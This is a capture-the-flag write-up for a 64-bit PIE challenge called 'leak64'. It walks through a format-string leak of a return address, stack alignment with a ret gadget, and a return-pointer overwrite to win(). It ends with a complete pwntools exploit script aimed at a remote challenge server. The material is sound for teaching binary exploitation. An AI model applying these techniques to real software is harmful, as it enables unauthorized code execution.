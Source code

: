 ```yaml
---
description: PIE again, 64-bit edition.
---
```


# leak64

{% file src="../../.gitbook/assets/leak64.zip" %}

This binary is remarkably similar to the last one, with two major differences:

1. We can't forget about the `movaps` fault; we need a way to mitigate this.
2. Addresses are 64-bit but are formatted very similarly.

Since this is the same binary as the last one, just compiled in 64-bit, we will skip most of the static analysis.

### The Attack Vector

First, we need to find a leakable address on the stack. We'll use `gdb` to do this because, in 64-bit, it's often a high-valued offset.

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/10gx $rsp
0x7fffffffe3c0:	0x7025207025207025	0x2520702520702520
0x7fffffffe3d0:	0x2070252070252070	0x0000007025207025
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x00007fffffffe400	0x00005555555552ba
0x7fffffffe400:	0x0000000000000001	0x00007ffff7c29d90
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We like the 8th value on the stack because it matches the format of the instructions nearby. If we check where it is:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/wx 0x00005555555552ba
0x5555555552ba <main+18>:	0x000000b8
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

This is our return pointer to `main()`! We can choose to leak this value and then overwrite it later. Our offset for the format string is going to be `13`.

{% hint style="danger" %}
#### _Uh, why?_

In 64-bit, there are 6 registers. The first is reserved for the format string so we don't count that one. This makes our offset `8+6-1=13`.
{% endhint %}

Now we have what we need. We can leak the address of `main() + 18` and then overwrite the return pointer with the address of `win()`.

```python
p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)
```

We also need a way to beat the `movaps` instruction. Because PIE is enabled, we can't hardcode gadgets. This means we have to find what function they're in, their offset, and then use that for our gadget. In this case, we can pull any `ret`, I tend to use `deregister_tm_clones()` because I know it's not problematic. We find our `ret` instruction:

```as
   0x0000555555555158 <+40>:	ret    
```

We can use this to build our payload:

```python
payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)
```

Then, we send the payload off and get the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak64')
p = remote('vunrotc.cole-ellis.com', 7300)

p.recvline()

p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)

payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}
